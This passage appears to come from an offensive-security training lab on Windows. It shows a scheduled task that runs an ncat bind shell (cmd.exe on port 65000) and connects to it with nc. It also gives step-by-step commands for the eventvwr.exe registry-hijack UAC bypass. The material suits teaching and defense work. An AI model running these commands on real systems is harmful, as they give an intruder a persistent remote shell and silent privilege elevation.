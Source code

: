 
```
"c:\users\student\setup\fetchable\ncat.exe -lp 65000 -e cmd.exe" /sc Minute
◦ Validate the task was created
▪ schtasks /query /fo LIST /v | Select-String -Pattern "SYSTEM" -CaseSensitive
-Context 6,0
◦ Show the task running
▪ netstat -ano |findstr 65000
◦ Connect to the listening port with nc
▪ nc <machine ip> 65000
▪ whoami
```
**DEMO: User Account Control (UAC) Bypass**

Sometimes an auto-elevate executable can be abused to execute a command at a higher integrity
level without issuing a prompt to the user. When an auto-elevate executable has such a
vulnerability, it is said to be vulnerable to a UAC Bypass. **A UAC Bypass** is any technique that allows
a process to execute a command at a higher integrity level without triggering a prompt or warning
to the user.

When an attacker has control of a privileged (member of Administrator localgroup for example)
user process at a medium integrity level, he or she may use UAC bypass in order to elevate to a high
integrity level without the user receiving a notification.

### IMPORTANT

```
UAC bypass does not escalate from a non-privileged user to a privileged
user ; it allows a privileged user to perform a privileged action without
triggering a prompt.
```
This bypass is trypically done through the high integrity-level programs calls the regiestry key to
run it will look at HKCU and than HKCR keys. If the program accesses HKCU than HKCR and the
HKCU key doesn’t exist than we can create the key, since we have the ability to work in the HKCU.

This bypass takes advanage of how **eventvwr.exe** looks the mscfile\shell reg key. It is Important to
know that when eventvwr.exe runs, it transitions to using mmc snap-in (mmc.exe), which you will
see after eventvwr runs through its load process.

**Process Explorer** :

1. Run: procexp /e
    ◦ Click **View**
    ◦ Click **Select Columns**
    ◦ Select **Integrity Level**
2. Find mmc.exe (eventvwr.exe is running through the mmc)
3. Identify how it started in a **High** Integrity Level


**Process Monitor** :

4. Run: procmon /AcceptEula
5. Configure the following filters by pressing CTRL + L to open the filter menu:
    a. **Process Name** is eventvwr.exe
       ▪ Walk through the path calls to show what eventvwr.exe is loading
b. **Result** is NAME NOT FOUND
▪ Point out how eventvwr.exe is looking to load all the different types of keys
    c. **Path** contains HKCU
       ▪ Discuss why we want to look at HKCU, we can write into that reg area. Remove this filter
          for the next one
d. **Path** contains mscfile\shell
▪ The key we want to use
6. From the CLI run the below commands
    a.reg add "hkcu\software\classes\mscfile\shell\open\command" /t REG_SZ /d
       "c:\windows\system32\windowspowershell\v1.0\powershell.exe start-process cmd"
b. eventvwr.exe